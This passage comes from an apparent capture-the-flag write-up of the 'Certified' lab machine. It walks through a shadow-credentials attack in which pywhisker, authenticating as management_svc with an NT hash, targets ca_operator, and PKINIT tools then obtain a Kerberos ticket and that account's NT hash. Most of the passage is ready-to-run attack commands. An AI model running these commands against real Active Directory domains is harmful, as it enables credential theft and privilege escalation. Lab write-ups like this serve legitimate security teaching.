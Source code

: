 ![path3](../../../../../assets/certified/path3.png)

We use `pywhisker` again to obtain our password and the `.pfx` file, this time as the user _management_svc_ attacking _ca_operator_.

```python
pywhisker -d "certified.htb" -u "management_svc" --hashes :a091c1832bcdd4677c28b5a6a1295584 --target "ca_operator" --action "add"
```

And we repeat the previous process.

- 1º We create the TGT:

```
python3 gettgtpkinit.py -cert-pfx ../mmzBceHE.pfx -pfx-pass cBdb8wYDwF93taIIZe7L -dc-ip 10.10.11.41 certified.htb/ca_operator ca_operator.ccache
```
- 2º We generate the hash:

```
KRB5CCNAME=ca_operator.ccache python3 getnthash.py -key d54f430c7131a345a23df9eb39dc13a56d3dbb85e292ce2628a19c906242c4b9 -dc-ip 10.10.11.41 certified.htb/ca_operator
```

Remember that the clocks must be synchronized.

#### Granting administrator privileges

![info](../../../../../assets/certified/ca_operatorinfo.png)
